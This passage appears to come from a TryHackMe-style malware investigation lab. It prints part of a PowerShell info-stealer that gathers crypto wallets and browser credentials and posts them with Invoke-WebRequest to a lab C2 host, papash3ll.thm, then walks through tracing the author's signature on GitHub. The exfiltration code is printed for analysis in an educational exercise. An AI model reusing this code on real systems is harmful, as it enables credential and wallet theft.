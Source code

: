 ```powershell
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```


The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

```ad-bug
Disclaimer:Â All content in this room, including CPP code,Â PowerShellÂ scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.
```

This looks fairly typical of aÂ PowerShellÂ script for such a purpose, with one notable exception: a signature in the code that reads.

> **Created by the one and only M.M.**

## Searching the Source
---
There are many paths we could take to continue our investigation. We could investigate the website further, analyze its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

However, for this room, we'll try something a bit different. Since we already have the PowerShell code, searching for it online might give us useful leads. It's a long shot, but we'll explore it in this exercise.

There are many places where we can search for code. The most widely used is GitHub. So let's try searching there.

To search effectively, we can look for unique parts of the code that we could use to search with. The more distinctive, the better. For this scenario, we have the string we've uncovered before that reads:

**"Created by the one and only M.M."**

Search for this on Github.com or by going directly to this link:Â [https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues](https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues)

![GitHub search results page based on the keywords indicated.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5fc2847e1bbebc03aa89fbf2/room-content/5fc2847e1bbebc03aa89fbf2-1729863090396.png)  
